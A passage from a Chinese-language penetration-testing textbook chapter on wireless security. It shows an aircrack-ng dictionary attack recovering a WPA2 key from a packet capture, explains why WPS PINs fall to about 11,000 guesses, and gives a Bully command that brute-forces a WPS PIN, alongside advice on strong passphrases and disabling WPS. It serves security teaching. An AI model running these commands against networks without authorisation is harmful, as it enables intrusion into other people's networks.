示例 15-15. 使用 Aircrack-ng 恢复 WPA2 密钥

```
root@kali:~# aircrack-ng -w password.lst -b 00:23:69:F5:B4:2B pentestbook2*.cap
Opening pentestbook2-01.cap

Reading packets, please wait...

                                 Aircrack-ng 1.2 beta2

                   [00:00:00] 1 keys tested (178.09 k/s)

                       KEY FOUND! [ GeorgiaIsAwesome ] ❶

      Master Key     : 2F 8B 26 97 23 D7 06 FE 00 DB 5E 98 E3 8A C1 ED
                       9D D9 50 8E 42 EE F7 04 A0 75 C4 9B 6A 19 F5 23

      Transient Key  : 4F 0A 3B C1 1F 66 B6 DF 2F F9 99 FF 2F 05 89 5E
                       49 22 DA 71 33 A0 6B CF 2F D3 BE DB 3F E1 DB 17
                       B7 36 08 AB 9C E6 E5 15 5D 3F EA C7 69 E8 F8 22
                       80 9B EF C7 4E 60 D7 9C 37 B9 7D D3 5C A0 9E 8C

      EAPOL HMAC     : 91 97 7A CF 28 B3 09 97 68 15 69 78 E2 A5 37 54
```

如您所见，正确的密钥在我们的单词列表中，并且已经恢复 ❶。通过使用强密码短语（如第九章中所讨论的那样），可以防止这种针对 WPA/WPA2 的字典攻击。

Aircrack-ng 只是破解无线网络的众多工具之一。它非常适合初学者，因为在每个步骤中启动不同的工具有助于你熟悉这些攻击的工作原理。你可能遇到的其他广泛使用的 Wi-Fi 审计工具包括 Kismet 和 Wifite。

## Wi-Fi 保护设置

*Wi-Fi 保护设置 (WPS)* 旨在让用户通过八位数字 PIN 而非潜在的长而复杂的密码短语，将设备连接到安全网络。当提供正确的 PIN 时，接入点会发送密码短语。

### WPS 的问题

PIN 码的最后一位是前七位数字的校验和，因此密钥空间应为 10⁷，即 10,000,000 种可能的 PIN 码。然而，当客户端向接入点发送 PIN 时，前四位和后四位的有效性会分别报告。前四位全部有效，所以有 10,000 种可能性。后四位中，只有前三位有效（有 1000 种可能的猜测），因此暴力破解正确的 WPS PIN 最多需要 11,000 次猜测。这使得暴力破解所需的时间减少到四小时以内。解决此问题的唯一方法是禁用接入点上的 WPS。

### 使用 Bully 破解 WPS

Kali 提供了可以用于对 WPS 进行暴力破解的工具。其中一个工具是 Bully。我们可以使用 Bully 来暴力破解 WPS PIN 码，也可以测试特定的 PIN 码。使用 Bully 时，我们需要获取接入点的 SSID、MAC 地址和频道，这些信息在本章开始时我们通过 `iwlist` 获取。使用 `-b` 标志指定 MAC 地址，`-e` 标志指定 SSID，`-c` 标志指定频道，如下所示。

```
root@kali:~# bully mon0 -b 00:23:69:F5:B4:2B -e linksys -c 6
```

Bully 应该能在大约四小时内暴力破解 PIN 码，并恢复正确的预共享 PIN。许多无线接入点默认启用 WPS，且相比猜测强密码的 WPA/WPA2 密码，WPS 可能是更容易的突破口。

## 总结

无线安全常常是组织安全防护中被忽视的一部分。尽管组织投入了时间和资金来保护外围，部署最新的防火墙和入侵防御系统，但如果攻击者能够仅仅在街对面的咖啡店坐着，带着强大的天线就能加入到你的公司网络中，那一切投入都将是徒劳的。无线连接虽然可以让公司避免因员工绊倒以太网电缆而遭遇诉讼，但也带来了潜在的安全漏洞，因此应定期进行审计。本章中，我们使用 Aircrack-ng 通过监听和注入无线网络流量来恢复 WEP 和 WPA2 个人无线密钥，并使用 Bully 来暴力破解 WPS PIN。
